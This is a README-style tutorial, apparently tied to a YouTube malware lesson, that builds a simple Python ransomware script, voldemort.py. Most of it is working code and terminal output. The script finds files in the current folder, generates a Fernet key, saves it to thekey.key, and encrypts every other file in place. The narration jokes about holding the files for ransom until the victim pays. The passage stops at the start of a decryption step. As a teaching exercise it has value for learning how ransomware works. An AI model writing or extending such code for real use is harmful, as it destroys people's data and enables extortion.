 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'nDcZ_UIVfpECWw2ezj2T4RKHg7i_7ARgMtHXEVxarfQ='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
l-4zrPy0VkR8pDJnGvsxyy2UEXGiV0AKkpEQR-fzD14=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo9_vsmrW0ocPft7966tBWfmDGPGuULoBZLck3RAbj2MPsLUWLoErkInZD5hWc4MVuuBzs99_EzxOvVCckm1kSqq27hhhO0Atscgp6N4Y73BcN6nIJ9hV0Lf6TcccX0b4NQxdOHP0vFXQ4wHA8eipTaASBhfl_02kekjYlbtDo5fOhWPnO8mDwYHcrxrblkOQwmvhm9_kwUKShDc4Ign2bk1D72A==%
$ cat file2.txt
gAAAAABo9_vsnw_nYyQ_29Z-Ol9W322Qf6hScuHtGS6YgB8A1mik3dlDoKi11PrfFGDIoDr22ddLw-yeT3D-dulUuvQBz-t0LB02vJhdmjJFBgLUCYl0FajFaIyYXb31dkrUlYLoSuG7FPchBeT4EG6-1lllQFbV9QBQlKsPXNZOLU6j551Q54Kg4XhpHPTEuym02dZaC0YOIn7B5hFFj8EtROpXKqqDHw==%
$ cat hey.txt
gAAAAABo9_vsLnZX08uVJR-veRrK-SNBhBLB3oLAhxl850VmOYnSGTkjLoPmHzNGKmjbZNBcOMMUUxLUKpN50_XdErY_C-TmzgMD_O6pzhllzdzZ-kYL8zKEgDI7VSAsSTsRkY12-kNpcLuQnvQz_7KDCqFXE6N-605rrYo0tQr2gd5RIp2_IoyHJBWT1etHcMSjkJ3u8IXLhcf3_h6-9RHkMlRTFkxFFQ==%
$ cat pleasedonthurtme.txt
gAAAAABo9_vsBkcYTvBVAh46_xe24bRQtPJLbmbZj2RQhzY6XFW5NtPQZukDfkAkzyH-KDu5rrnAhd1dZjGKjtNM7VR3U_DZs8-FtHKCU2MbjfpTeA59CJel17U577amMDzeiJV5RWF0L4CTXBwR1a8_4TRdTKNReT7DP4nzIc73iprGF9qqjQbPOJJmBVofby7mbYmRJCC9F53KMvd-NM9xFhyfu-q8uA==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
uGb51hGWiq-3FEslUhjYNDn2HBWs8JXl-X1RHUqiiSw=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA encrypting) file:

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>
